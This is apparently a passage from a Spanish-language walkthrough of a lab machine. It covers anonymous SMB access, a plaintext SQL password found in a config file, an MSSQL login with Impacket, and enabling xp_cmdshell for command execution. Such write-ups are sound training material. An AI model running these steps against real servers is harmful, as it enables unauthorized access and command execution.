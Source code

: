 ```bash
smbclient -N \\\\10.10.10.27\\
```

<br>

Accederemos y encontraremos una carpeta llamada backups que contiene el archivo prod.dtsConfig:

```plaintext
File: prod.dtsConfig

<DTSConfiguration&gt;
<DTSConfigurationHeading&gt;
<DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/&gt;
DTSConfigurationHeading&gt;
<Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String"&gt;
<ConfiguredValue&gt;Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue&gt;
Configuration&gt;
DTSConfiguration&gt;
```

Veremos las siguientes credenciales:

```plaintext
File: sqlCreds

ARCHETYPE\sql_svc:M3g4c0rp123
```

<br>

## Shell del usuario

### Microsoft SQL Server
Probaremos a conectarnos a Microsoft SQL Server con las credenciales que acabamos de encontrar, para ello usaremos la herramienta mssqlclient de [Impacket](https://github.com/SecureAuthCorp/impacket) con el comando:

```bash
impacket-mssqlclient ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```

<br>

Una vez dentro, habilitaremos la ejecución de comandos del sistema en la sesión interactiva del servidor SQL, para ello:

```powershell
SQL&gt; enable_xp_cmdshell
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```
